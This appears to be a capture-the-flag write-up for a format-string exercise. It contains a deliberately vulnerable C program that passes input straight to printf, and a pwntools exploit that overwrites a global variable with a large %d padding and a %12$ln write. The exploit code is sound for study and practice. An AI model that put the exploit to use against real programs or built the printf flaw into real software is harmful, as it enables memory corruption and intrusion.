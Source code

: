 ## Format 3

Uplevel++ :< This more hard and more complicated
Source code for this:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}


//gcc -m32 -o format formatthree.c -fno-stack-protector -g -z execstack -W -no-pie

```

Same thing with previous chall but value of target have change target == 0x01025544 ... That is a big number but is nothing we can using old way to solve this problem 
```
from pwn import * 

BIN = "./format"

target = 0x0804c028


def exploit():
	payload = p32(target) + b"%16930112d" + b"%12$ln"
	io.sendline(payload)
	io.interactive()

io = process(BIN)
exploit()


#ABCD%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x
```
And maybe we have another way. We can be write to 2 bytes 